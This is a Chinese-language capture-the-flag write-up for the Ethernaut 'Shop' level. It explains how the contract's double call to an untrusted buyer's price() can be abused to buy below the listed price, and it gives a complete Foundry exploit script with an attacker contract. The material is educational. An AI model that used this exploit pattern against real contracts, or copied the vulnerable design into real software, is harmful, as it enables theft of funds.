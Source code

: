 # Level 21 - Shop
## 題目
[Shop](https://ethernaut.openzeppelin.com/level/0x691eeA9286124c043B82997201E805646b76351a)

### 通關條件
合約可以以任何他們想要的方式操縱其他合約所看到的數據。
基於外部和不受信任的合約邏輯來改變狀態是不安全的。
### 合約內容
``` solidity=
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```
## 解題
這題題目沒有說的很具體，簡單來說這是一個購物合約，我們的目標就是用比定價更低的價格購買到商品。那首先看題目合約中執行購買動作的 `buy()`
``` solidity=12
function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
        isSold = true;
        price = _buyer.price();
    }
}
```
12 行可以看到呼叫合約購買時，會先將以呼叫的地址（`msg.sender`）創建一個新的 `Buyer` 合約。接著 15 行判斷 `_buyer` 是否有足夠的金額和商品是否售出，如果判斷通過會將售出狀態更新，以及把價格修改為購買價格（我猜他是用這個數字有沒有比初始價格 100 還要低去判斷是否通關的）。那 15 行在判斷金額的時候會呼叫 `_buyer.price()`，在第 4 行可以看到他是以介面的方式去創建 `Buyer` 合約
``` solidity=4
interface Buyer {
    function price() external view returns (uint256);
}
```
也就是說，我們只要在自己的地址實作 `Buyer.price()` 合約即可。實作 `price()` 的時候要考慮到最後要把題目合約裡的 `price` 變小（17 行），但是又要通過第 15 行的判斷。這裡使用的技巧跟解 [Level 11 - Elevator](https://ethernaut.openzeppelin.com/level/0x6DcE47e94Fa22F8E2d8A7FDf538602B1F86aBFd2) 一樣，只要讓 `price()` 兩次回傳的數值不一樣即可，15-17 行可以發現 `_buyer.price()` 被呼叫的兩次中間有 `isSold = true` 這句去修改售出狀態，我們可以利用這個變數去判斷現在應該要回傳大於 `price` 還是小於 `price` 的值。
```solidity
function price() external view returns (uint){
    return level21.isSold() == true ? 1: 101; 
}
```
實作完介面要求之後，這題就可以順利過關了，攻擊合約如下：
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/21_Shop.sol";

contract ExploitScript is Script {

    function run() external {
        vm.startBroadcast();
        ShopAttacker shopAttacker = new ShopAttacker(your_challenge_address);
        shopAttacker.attack();
        vm.stopBroadcast();
    }
}

contract ShopAttacker {
    Shop public level21;

    constructor(address _target) {
        level21 = Shop(_target);
    }

    function attack() public{
        level21.buy();
    }

    function price() external view returns (uint){
        return level21.isSold() == true ? 1: 101; 
    }
}
```